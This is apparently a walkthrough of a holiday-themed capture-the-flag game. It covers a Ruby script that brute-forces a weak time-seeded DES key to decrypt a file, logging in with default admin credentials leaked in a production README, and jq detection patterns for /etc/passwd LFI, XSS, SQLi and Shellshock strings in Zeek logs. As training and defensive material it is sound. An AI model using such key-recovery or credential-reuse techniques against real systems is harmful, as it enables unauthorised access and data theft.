elf@caf55ec1bebd:~$ ps -efw UID PID PPID C STIME TTY TIME CMD elf 1 0 0 05:47 pts/0 00:00:00 /bin/bash mongo 9 1 12 05:47 ? 00:00:01 /usr/bin/mongod --quiet --fork --port 12121 --bind_ip 127.0.0.1 --logpath=/tmp/mongo.log
Connect to mongo, switch to the elfu database and find the collection called solution.
elf@caf55ec1bebd:~$ mongo 127.0.0.1:12121 MongoDB shell version v3.6.3 connecting to: mongodb://127.0.0.1:12121/test MongoDB server version: 3.6.3 Welcome to the MongoDB shell. > show dbs admin 0.000GB elfu 0.000GB local 0.000GB test 0.000GB > use elfu switched to db elfu > show collections bait chum line metadata solution system.js tackle tincan
Look at the contents of the solution collection, and then follow the instructions you find there to solve the terminal.
> db.solution.find()
{ "_id" : "You did good! Just run the command between the stars: ** db.loadServerScripts();displaySolution(); **" }
> db.loadServerScripts();displaySolution();
.
__/ __
/
/.'o'.
.o.'.
.'.'*'.
o'.*.'.o.
.'.o.'.'.*.
.*.'.*.'.*.'.
[_____]
___/
Congratulations!!
Get hint from Holly Evergreen
Woohoo! Fantabulous! I'll be the coolest elf in class.
On a completely unrelated note, digital rights management can bring a hacking elf down.
That ElfScrow one can really be a hassle.
It's a good thing Ron Bowes is giving a talk on reverse engineering!
That guy knows how to rip a thing apart. It's like he breathes opcodes!
Recover the clear-text document
An outline for carrying out this task is provided in the KringleCon talk by Ron Bowes, Reversing Crypto the Easy Way. After watching the talk, download the demonstration code used in the talk. Then you'll need to collect some information.
-
The key length: 8. This is easy to obtain, as the elfscrow program tells you this when you run it.
-
The crypto algorithm and mode: DES-CBC. This is determined by examining the block length of the resulting encrypted data, and whether repeating plain text results in repeating patterns of cipher text.
-
The crypto library used to build the program: Microsoft Crypto Library. Determine this by opening elfscrow.exe in IDA along with the provided debug symbols.
-
The possible seed values: 1575658800-1575666000. Simply convert the dates provided in the objective to epoch integer values at epochconverter.com.
-
The random key generation algorithm associated with Microsoft Crypto Library. Go to the rosettacode.org website and copy the Ruby key generation code for Microsoft.
With all of the necessary information gathered, modify the demonstration code and run it. The decryption function will report success on any valid key, even if it's not the right one. Your code should therefore check to see if the plaintext contains PDF data before writing out the data to a file.
#!/usr/bin/ruby require 'openssl' KEY_LENGTH = 8 # TODO: What is the length of the key? def generate_key(seed) key = "" 1.upto(KEY_LENGTH) do key += ((seed = ((214013 * seed + 2531011) & 0x7fff_ffff)) >> 16 & 0x0FF).chr end return key end def decrypt(data, key) c = OpenSSL::Cipher::DES.new('cbc') # TODO: What's the ALG + details? c.decrypt c.key = key return (c.update(data) + c.final()) end def writefile(plain) file = File.open("ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf", "wb") do|f| f.write(plain) end end #Begin file = File.open("ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.enc", "rb") data = file.read file.close for i in 1575658800..1575666000 do seed = i.to_i key = generate_key(seed) #puts("Generated key: #{key.unpack('H*')} " + seed.to_s) begin plain = decrypt(data, key) rescue #do nothing else if plain[0..5].include? "%PDF" writefile(plain) puts("Decrypted file using key #{key.unpack('H*')} (seed value is #{seed.to_s})") break end end end
Running this produces the decrypted file ElfUResearchLabsSuperSledOMaticQuickStartGuideV1.2.pdf.
Answer: Machine Learning Sleigh Route Finder
Objective 11 - Open the Sleigh Shop Door
Visit Shinny Upatree in the Student Union and help solve their problem. What is written on the paper you retrieve for Shinny? For hints on achieving this objective, please visit the Student Union and talk with Kent Tinseltooth. (Difficulty: 5 out of 5)
Talk to Kent Tinseltooth
OK, this is starting to freak me out!
Oh sorry, I'm Kent Tinseltooth. My Smart Braces are acting up.
Do... Do you ever get the feeling you can hear things? Like, voices?
I know, I sound crazy, but ever since I got these... Oh!
Do you think you could take a look at my Smart Braces terminal?
I'll bet you can keep other students out of my head, so to speak.
It might just take a bit of Iptables work.
Terminal: Smart Braces Server

Kent needs you to configure the firewall on the Smart Braces server. Read the file referenced in the opening screen, which describes the characteristics of a proper configuration.
A proper configuration for the Smart Braces should be exactly:
- Set the default policies to DROP for the INPUT, FORWARD, and OUTPUT chains.
- Create a rule to ACCEPT all connections that are ESTABLISHED,RELATED on the INPUT and the OUTPUT chains.
- Create a rule to ACCEPT only remote source IP address 172.19.0.225 to access the local SSH server (on port 22).
- Create a rule to ACCEPT any source IP to the local TCP services on ports 21 and 80.
- Create a rule to ACCEPT all OUTPUT traffic with a destination TCP port of 80.
- Create a rule applied to the INPUT chain to ACCEPT all traffic from the lo interface.
Use the following commands to configure IP tables:
sudo iptables -P INPUT DROP sudo iptables -P OUTPUT DROP sudo iptables -P FORWARD DROP sudo iptables -A INPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT sudo iptables -A OUTPUT -m conntrack --ctstate ESTABLISHED,RELATED -j ACCEPT sudo iptables -A INPUT -p tcp -m conntrack --ctstate NEW --dport 22 -s 172.19.0.225 -j ACCEPT sudo iptables -A INPUT -p tcp -m conntrack --ctstate NEW -m multiport --dports 21,80 -j ACCEPT sudo iptables -A OUTPUT -p tcp -m conntrack --ctstate NEW --dport 80 -d 0.0.0.0/0 -j ACCEPT sudo iptables -A INPUT -i lo -j ACCEPT
Moments later, a message appears on the terminal:
Kent TinselTooth: Great, you hardened my IOT Smart Braces firewall!
Hint from Kent Tinseltooth
Oh thank you! It's so nice to be back in my own head again. Er, alone.
By the way, have you tried to get into the crate in the Student Union? It has an interesting set of locks. There are funny rhymes, references to perspective, and odd mentions of eggs! And if you think the stuff in your browser looks strange, you should see the page source...
Special tools? No, I don't think you'll need any extra tooling for those locks. BUT - I'm pretty sure you'll need to use Chrome's developer tools for that one. Or sorry, you're a Firefox fan? Yeah, Safari's fine too - I just have an ineffible hunger for a physical Esc key. Edge? That's cool. Hm? No no, I was thinking of an unrelated thing. Curl fan? Right on! Just remember: the Windows one doesn't like double quotes.
Old school, huh? Oh sure - I've got what you need right here...
...
...
And I hear the Holiday Hack Trail game will give hints on the last screen if you complete it on Hard.
Talk to Shinny Upatree
Psst - hey!
I'm Shinny Upatree, and I know what's going on!
Yeah, that's right - guarding the sleigh shop has made me privvy to some serious, high-level intel.
In fact, I know WHO is causing all the trouble.
Cindy? Oh no no, not that who. And stop guessing - you'll never figure it out.
The only way you could would be if you could break into my crate, here.
You see, I've written the villain's name down on a piece of paper and hidden it away securely!
Unlock the Crate
Click on the crate. Your browser opens to http://sleighworkshopdoor.elfu.org/. Answer a series of questions using the browser developer tools to find secrets hidden within the website. See the hints in your badge for help using the developer tools in most popular browsers. The walkthru assumes you use Google Chrome.
Caution
Each time you play this game, all but a couple of the values are different. If you reload the page, you won't be able to reuse your previous answers.
Lock #1 - You don't need a clever riddle to open the console and scroll a little
Solution: Open your browser's developer tools, switch to the Console tab, and scroll through the history to find this code.
Lock #2 - Some codes are hard to spy, perhaps they'll show up on pulp with dye?
Solution: Go to the print preview, and you'll find the code printed off to the right of the riddle.
Alternative: Search for the div tag that contains class="libra" under the Elements tab of the developers tools. The code is shown here as well.
Lock #3 - Look in the network tab for the image file that looks like a GUID string (example: c9c54b13-a1f9-4817-8f88-c002607498be.png). The code is displayed in the image.
Solution: In the network tab, there is a png file with a GUID name. Click on it, then click on preview, and you'll see the code.
Lock #4 - Where might we keep the things we forage? Yes, of course: Local barrels!
Solution: Go to the Application tab and look under Local Storage.
Lock #5 - Did you notice the code in the title? It may very well prove vital.
Solution: You can find this on the Source tab under "(index)", or you can right click on the page and click View Source. Either way, scroll to the top and look all the way to the right inside of the <title> tags.
Lock #6 - In order for this hologram to be effective, it may be necessary to increase your perspective.
Solution: Use the element inspector tool (Ctrl+Shift+C in Chrome) to click on the hologram. Find .hologram under Styles and add zeros to the current value of perspective (15px). The code is easily read at 15000px.
Lock #7 - The font you're seeing is pretty slick, but this lock's code was my first pick.
Solution: Use the element inspector tool to select the text of any hint. In the .instructions class, you'll see a font-family with the code as the first of multiple values.
Lock #8 - In the event that the .eggs go bad, you must figure out who will be sad.
Solution: Use the element inspector tool to click on the text .eggs, click on Event Handlers, and then expand spoil. This lock has a fixed value: VERONICA
Lock #9 - This next code will be unredacted, but only when all the chakras are :active.
Solution: Use the element inspector tool to select any text in this riddle. In the source, you'll find multiple uses of div tags with class "chakra". Right click on each one of them, select Force State, then select :active. Once all of the chakras are active, the code will appear in the riddle.
Lock #10 - Oh, no! This lock's out of commission! Pop off the cover and locate what's missing.
Solution: Use the element inspector tool to select the lock. Expand the div containing class="lock c10", then right click on the div tag containing class="cover" and disable the element. Find the code printed on the circuit board (kd29xj37), enter it into the lock and press the button. The lock remains closed.
Now look in the console, and see that there is an error about a "Missing Macaroni." Scroll up in the Elements tab a little and you'll find <div class="component macaroni" data-code="A33"></div>. Click and drag this down into the html source code of the last lock, right under the disabled lock class. A macaroni now appears on the circuit board. Click the button, but still nothing happens.
Check the console again. Now there is an error about a missing Cotton Swab. Repeat the steps above to put the swab inside the lock, and then repeat them one more time for the missing Gnome. Now click the button, and the final lock is opened.

Answer: The Tooth Fairy
Hint from Shinny Upatree
Wha - what?? You got into my crate?!
Well that's embarrassing...
But you know what? Hmm... If you're good enough to crack MY security...
Do you think you could bring this all to a grand conclusion?
Please go into the sleigh shop and see if you can finish this off!
Stop the Tooth Fairy from ruining Santa's sleigh route!
Talk to The Tooth Fairy
After entering the answer into your badge, the sleigh shop door opens. Inside is the Tooth Fairy.
I’m the Tooth Fairy, the mastermind behind the plot to destroy the holiday season.
I hate how Santa is so beloved, but only works one day per year!
He has all of the resources of the North Pole and the elves to help him too.
I run a solo operation, toiling year-round collecting deciduous bicuspids and more from children.
But I get nowhere near the gratitude that Santa gets. He needs to share his holiday resources with the rest of us!
But, although you found me, you haven’t foiled my plot! Santa’s sleigh will NOT be able to find its way. I will get my revenge and respect! I want my own holiday, National Tooth Fairy Day, to be the most popular holiday on the calendar!!!
Objective 12 - Filter Out Poisoned Sources of Weather Data
Use the data supplied in the Zeek JSON logs to identify the IP addresses of attackers poisoning Santa's flight mapping software. Block the 100 offending sources of information to guide Santa's sleigh through the attack. Submit the Route ID ("RID") success value that you're given. For hints on achieving this objective, please visit the Sleigh Shop and talk with Wunorse Openslae. (Difficulty: 4 out of 5)
Note
The music in this room is inspired by the song "Supercalifragilisticexpialidocious" from Mary Poppins.
Talk to Wunorse Openslae
Wunorse Openslae here, just looking at some Zeek logs.
I'm pretty sure one of these connections is a malicious C2 channel...
Do you think you could take a look?
I hear a lot of C2 channels have very long connection times.
Please use jq to find the longest connection in this data set.
We have to kick out any and all grinchy activity!
Terminal: Zeek Logs

Read the SANS pen-testing blog post supplied in your hints for help using jq to parse the zeek json logs.
Sort the json data by duration in reverse order (highest to lowest), then displays only the first event.
elf@07223ffe4973:~$ cat conn.log | jq -s 'sort_by(.duration) | reverse | .[0]'
{
"ts": "2019-04-18T21:27:45.402479Z",
"uid": "CmYAZn10sInxVD5WWd",
"id.orig_h": "192.168.52.132",
"id.orig_p": 8,
"id.resp_h": "13.107.21.200",
"id.resp_p": 0,
"proto": "icmp",
"duration": 1019365.337758,
"orig_bytes": 30781920,
"resp_bytes": 30382240,
"conn_state": "OTH",
"missed_bytes": 0,
"orig_pkts": 961935,
"orig_ip_bytes": 57716100,
"resp_pkts": 949445,
"resp_ip_bytes": 56966700
}
Use the value 13.107.21.200 in the id.resp_h field to solve the terminal.
elf@07223ffe4973:~$ runtoanswer Loading, please wait...... What is the destination IP address with the longes connection duration? 13.107.21.200 Thank you for your analysis, you are spot-on. I would have been working on that until the early dawn. Now that you know the features of jq, You'll be able to answer other challenges too. -Wunorse Openslae Congratulations!
Hint from Wunorse Openslae
That's got to be the one - thanks!
Hey, you know what? We've got a crisis here. You see, Santa's flight route is planned by a complex set of machine learning algorithms which use available weather data. All the weather stations are reporting severe weather to Santa's Sleigh. I think someone might be forging intentionally false weather data! I'm so flummoxed I can't even remember how to login!
Hmm... Maybe the Zeek http.log could help us. I worry about LFI, XSS, and SQLi in the Zeek log - oh my! And I'd be shocked if there weren't some shell stuff in there too. I'll bet if you pick through, you can find some naughty data from naughty hosts and block it in the firewall.
If you find a log entry that definitely looks bad, try pivoting off other unusual attributes in that entry to find more bad IPs. The sleigh's machine learning device (SRF) needs most of the malicious IPs blocked in order to calculate a good route. Try not to block many legitimate weather station IPs as that could also cause route calculation failure. Remember, when looking at JSON data, jq is the tool for you!
Talk to Krampus
But there’s still time!
Solve the final challenge in your badge by blocking the bad IPs at srf.elfu.org and save the holiday season!
Block naughty hosts
First you need to figure out how to sign into the SRF webpage.
In the Smart Braces Terminal, Kent mentioned that the Sleigh Route Finder is being tested at srf.elfu.org with default credentials, and the unencrypted PDF from the previous challenge states that the default creds are in the git repo. There haven't been any hints of a git repository, and there's nothing in Github that looks remotely useful. Sometimes admins get sloppy when pushing their projects into production, so the password might be on the production server itself. A README.md file is a common file to find in a git repo; check to see if it can be requested from the web server.
$ curl https://srf.elfu.org/README.md
# Sled-O-Matic - Sleigh Route Finder Web API
### Installation
```
sudo apt install python3-pip
sudo python3 -m pip install -r requirements.txt
```
#### Running:
`python3 ./srfweb.py`
#### Logging in:
You can login using the default admin pass:
`admin 924158F9522B3744F5FCD4D10FAC4356`
However, it's recommended to change this in the sqlite db to something custom.
The README.md file from the github repo was copied into production, which provides the default credentials. The instructions recommend changing this password, but lucky for you, that was not done. Sign in with the supplied default admin password.
The hints suggest that Wunorse is concerned about Local File Inclusion (LFI), Cross Site Scripting (XSS), SQL injection (SQLi), and Shellshock attacks. To detect these attacks in the logs, look in the fields that carry user-supplied inputs (uri, host, username, and user_agent). Each attack involves sending a specially crafted request; if you know what each of these looks like, it's pretty easy to search for them.
| Attack | What to look for |
|---|---|
| LFI | There's a multitude of LFI attack strings you could look for, but the attacker in this scenario seems to be interested in the /etc/passwd file, so search for that |
| XSS | Cross site scripting usually involves injecting html tags into an input field, so any request that contains < should be considered suspicious |
| SQLi | SQL injection attacks almost always include a ' (single quote) character |
| Shell Shock | If () { appears in the user agent string, that's definitely a red flag |
Use jq to search for these telltale strings in the fields that contain user-supplied data.
jq -j --arg a "(\/etc\/passwd|\<|\'|\(\) {)" '.[] | select(.uri,.host,.user_agent,.username | test($a)) | ."id.orig_h", "\n"' http.log
This will produce 58 unique bad actor IP addresses that can be blocked, but that's a bit shy of the 100 that Wunorse suggested there might be.
Look over the results, and you'll notice that many of the attacks that target the URI string have bogus-looking user agent strings. Here are a few examples that stand out:
Mozilla/4.0 (compatible; MSIEE 7.0; Windows NT 5.1) Mozilla4.0 (compatible; MSSIE 8.0; Windows NT 5.1; Trident/5.0) Mozilla/4.0 (compatible; MSIE 8.0; Window NT 5.1) Mozilla/5.0 (compatible; Goglebot/2.1; +http://www.google.com/bot.html)
You'll need to search through the logs to find out what other IP addresses these user agent strings have been seen at, and add those to the block list as well. Here's a script that does it all:
#!/bin/bash # Get the IP addresses that sent bad requests jq -j --arg a "(\/etc\/passwd|\<|\'|\(\) {)" '.[] | select(.uri,.host,.user_agent,.username | test($a)) | ."id.orig_h", "\n"' http.log > badips # Get the user agent strings that targetted the URI string jq -j --arg a "(\/etc\/passwd|\<|\')" '.[] | select(.uri | test($a)) | .user_agent, "\n"' http.log | sort | uniq \ | sed "s/;/\\;/g" | sed "s/(/./g" | sed "s/)/./g" > badagents # Iterate through list of bad user agents and obtain all of the IP addresses they were using while IFS="" read -r p || [ -n "$p" ] do jq -j --arg a "$p" '.[] | select(.user_agent|test($a)) | ."id.orig_h", "\n"' http.log >> badips done <badagents # Deduplicate and output the badip list to a blocklist that can be copied # and pasted into the Sleigh Route Finder firewall config page cat badips | sort | uniq | sed 's/$/,/g' > blocklist
Copy and paste these IP addresses into the firewall configuration tab of the Sleigh Route Finder website and click Deny.
Route Calculation Success! RID:0807198508261964
Visit the Bell Tower
The door to the bell tower is now open. Here you'll find Krampus, Santa, and the Toothfairy (now wearing an orange prison jump suit).

You foiled my dastardly plan! I’m ruined!
And I would have gotten away with it too, if it weren't for you meddling kids!
Congratulations on a job well done!
Oh, by the way, I won the Frido Sleigh contest.
I got 31.8% of the prizes, though I'll have to figure that out.
 You did it! Thank you! You uncovered the sinister plot to destroy the holiday season!
You did it! Thank you! You uncovered the sinister plot to destroy the holiday season!
Through your diligent efforts, we’ve brought the Tooth Fairy to justice and saved the holidays!
Ho Ho Ho!
The more I laugh, the more I fill with glee.
And the more the glee, The more I'm a merrier me!
Merry Christmas and Happy Holidays.
Note
Another Mary Poppins quote to end the game. This time it's "The more I laugh, the more I fill with glee..." which comes from the song I Love to Laugh.
Just when you're satisfied with a job well done, you notice a scrap of paper in the corner.
Roll credits..